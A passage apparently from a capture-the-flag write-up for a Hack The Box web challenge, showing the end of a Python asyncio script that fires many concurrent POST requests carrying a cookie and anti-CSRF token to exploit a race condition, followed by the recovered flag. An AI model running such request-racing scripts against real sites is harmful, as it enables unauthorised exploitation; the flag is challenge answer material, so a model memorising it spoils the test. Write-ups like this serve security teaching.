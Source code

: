     >             # data.add_field("antiCSRFToken", "24a60eea-4f78-4c5a-bb32-92fb68d39032")
    > 
    >             data.add_field("antiCSRFToken", "d08b4f3a-0fc3-495c-9cbb-ed70705919bf")
    >             data.add_field("name", "a")
    > 
    >             f.close()
    >             task = asyncio.ensure_future(post_request(session, url, cookie, data))
    >             tasks.append(task)
    >             
    >             # await asyncio.sleep(0.1)
    >         
    >         responses = await asyncio.gather(*tasks)
    >         print(responses)
    > 
    > if __name__ == "__main__":
    >     asyncio.run(main())
    >   ```
  
    Run the exploit, then navigate to the root website of challenge to retrieve the flag
  
  
    ![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/d36769ee-6338-4fc2-b7b1-f43821379802)



## Flag
HTB{0H_c0m3_0n_r4c3_c0nd1t10n_4nd_C55_1nj3ct10n_15_F1R3}
